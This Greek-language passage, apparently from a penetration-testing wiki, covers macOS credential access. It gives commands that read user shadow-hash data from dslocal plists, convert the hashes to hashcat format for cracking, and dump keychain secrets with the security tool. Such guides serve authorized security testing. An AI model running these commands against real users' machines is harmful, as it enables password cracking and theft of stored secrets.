 Ο κωδικός πρόσβασης shadow αποθηκεύεται με τη διαμόρφωση του χρήστη σε plist που βρίσκονται στο **`/var/db/dslocal/nodes/Default/users/`**.\
Η παρακάτω εντολή μπορεί να χρησιμοποιηθεί για να εξάγει **όλες τις πληροφορίες σχετικά με τους χρήστες** (συμπεριλαμβανομένων των πληροφοριών hash): 

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
{% endcode %}

[**Σενάρια όπως αυτό**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) ή [**αυτό**](https://github.com/octomagon/davegrohl.git) μπορούν να χρησιμοποιηθούν για να μετατρέψουν το hash σε **μορφή** **hashcat**.

Μια εναλλακτική εντολή που θα εξάγει τα creds όλων των μη υπηρεσιακών λογαριασμών σε μορφή hashcat `-m 7100` (macOS PBKDF2-SHA512):

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

Ένας άλλος τρόπος για να αποκτήσετε το `ShadowHashData` ενός χρήστη είναι χρησιμοποιώντας το `dscl`: ``sudo dscl . -read /Users/`whoami` ShadowHashData``

### /etc/master.passwd

Αυτό το αρχείο χρησιμοποιείται **μόνο** όταν το σύστημα εκτελείται σε **λειτουργία ενός χρήστη** (οπότε όχι πολύ συχνά).

### Keychain Dump

Σημειώστε ότι όταν χρησιμοποιείτε το εκτελέσιμο security για να **εκχυλίσετε τους αποκρυπτογραφημένους κωδικούς πρόσβασης**, αρκετές προτροπές θα ζητήσουν από τον χρήστη να επιτρέψει αυτή τη λειτουργία.
```bash
#security
security dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
### [Keychaindump](https://github.com/juuso/keychaindump)

{% hint style="danger" %}
Βασισμένο σε αυτό το σχόλιο [juuso/keychaindump#10 (comment)](https://github.com/juuso/keychaindump/issues/10#issuecomment-751218760), φαίνεται ότι αυτά τα εργαλεία δεν λειτουργούν πια στο Big Sur.
{% endhint %}
